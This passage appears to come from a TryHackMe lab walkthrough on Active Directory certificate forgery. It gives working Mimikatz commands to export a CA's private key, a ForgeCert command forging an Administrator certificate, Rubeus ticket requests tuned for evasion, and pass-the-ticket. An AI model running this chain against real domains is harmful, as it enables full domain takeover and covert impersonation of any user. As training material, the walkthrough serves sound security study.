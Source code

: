 We could simply steal the private key of the root CA's certificate to generate our own certificates whenever we feel like it.<br>
>what is the Certificate Authority ?

A Certificate Authority (CA) is an entity that issues and manages digital certificates used to verify identities and secure communications within a network, such as in Active Directory (AD). It ensures that certificates are valid, trusted, and used for secure authentication and encryption across the network.<br>

**Extracting the Private Key**

The private key of the CA is stored on the CA server itself. To extract the private key from a Certificate Authority (CA) in an environment using Active Directory Certificate Services (AD CS), you can use tools like Mimikatz. The private key is stored on the CA server and if this key is not protected by a Hardware Security Module (HSM), Mimikatz can be used to extract the CA certificate and its private key. After gaining access to the CA server via SSH, you can load Mimikatz to perform this extraction.
<br>
To dump the DC certs and dump the private keys too:
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched
mimikatz # crypto::certificates /systemstore:local_machine /export
```
![Screenshot from 2024-09-06 20-38-17](https://github.com/user-attachments/assets/0a13a442-3515-45b4-8242-24d7836c642c)

The **za-THMDC-CA.pfx** certificate is the one we are particularly interested in, for example. In order to export the private key, a password must be used to encrypt the certificate. By default, Mimikatz assigns the password of```mimikatz```.<br>

**Generating our own Certificates**

Now that we have the private key and root CA certificate, we can use the ```ForgeCert``` tool to forge a Client Authenticate certificate for any user we want. Let's use ForgeCert to generate a new certificate: 

```
ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```
> CaCertPath - The path to our exported CA certificate.<br>
> CaCertPassword - The password used to encrypt the certificate. By default, Mimikatz assigns the password of ```mimikatz```.<br>
> Subject - The subject or common name of the certificate. This does not really matter in the context of what we will be using the certificate for.<br>
> SubjectAltName - This is the User Principal Name (UPN) of the account we want to impersonate with this certificate. It has to be a legitimate user.<br>
> NewCertPath - The path to where ForgeCert will store the generated certificate.<br>
> NewCertPassword - Since the certificate will require the private key exported for authentication purposes, we must set a new password used to encrypt it.<br>

We can use ```Rubeus``` to request a TGT using the certificate to verify that the certificate is trusted. We will use the following command:

```
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:Admin.kirbi /domain:<DomainName> /dc:<IP of domain controller>
```
Let's break down the parameters:

  >  /user - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated.<br>
  >  /enctype -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert<br>
  >  /certificate - Path to the certificate we have generated<br>
  >  /password - The password for our certificate file<br>
  >  /outfile - The file where our TGT will be output to<br>
  >  /domain - The FQDN of the domain we are currently attacking<br>
  >  /dc - The IP of the domain controller which we are requesting the TGT from. Usually, it is best to select a DC that has a CA service running<br>



Now we can use Mimikatz to load the TGT and authenticate to THMDC:
```
mimikatz # kerberos::ptt Admin.kirbi
```








